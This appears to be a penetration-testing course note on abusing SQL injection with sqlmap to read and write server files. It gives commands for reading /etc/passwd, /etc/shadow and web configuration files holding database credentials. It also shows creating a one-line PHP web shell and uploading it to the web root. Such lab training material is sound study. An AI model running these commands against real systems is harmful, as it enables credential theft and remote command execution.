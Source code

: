 #### File Read Operations

**Prerequisites for File Reading:**
- **MySQL**: `LOAD DATA` and `INSERT` privileges
- **DBA privileges** (preferred but not always required)
- **File system permissions** on target files

**Basic File Reading:**
```bash
# Read system files
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

# Expected process:
[INFO] fetching file: '/etc/passwd'
[INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)
```

**View Retrieved File:**
```bash
# Check downloaded file
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

# Expected content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

**Common Target Files:**
```bash
# System information
sqlmap -u "URL" --file-read "/etc/passwd"              # User accounts
sqlmap -u "URL" --file-read "/etc/shadow"              # Password hashes (if permissions)
sqlmap -u "URL" --file-read "/etc/hosts"               # Host configurations
sqlmap -u "URL" --file-read "/proc/version"            # Kernel version

# Web application files
sqlmap -u "URL" --file-read "/var/www/html/config.php" # Database credentials
sqlmap -u "URL" --file-read "/var/www/html/flag.txt"   # HTB Academy flags
sqlmap -u "URL" --file-read "/var/log/apache2/access.log" # Log files
```

#### File Write Operations

**Prerequisites for File Writing:**
- **DBA privileges** (usually required)
- **`--secure-file-priv`** disabled or unrestricted
- **Write permissions** on target directory
- **Web server** access to written files

**Basic File Writing Process:**
```bash
# Step 1: Create local web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Step 2: Upload web shell to target
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

# Expected confirmation:
[INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

```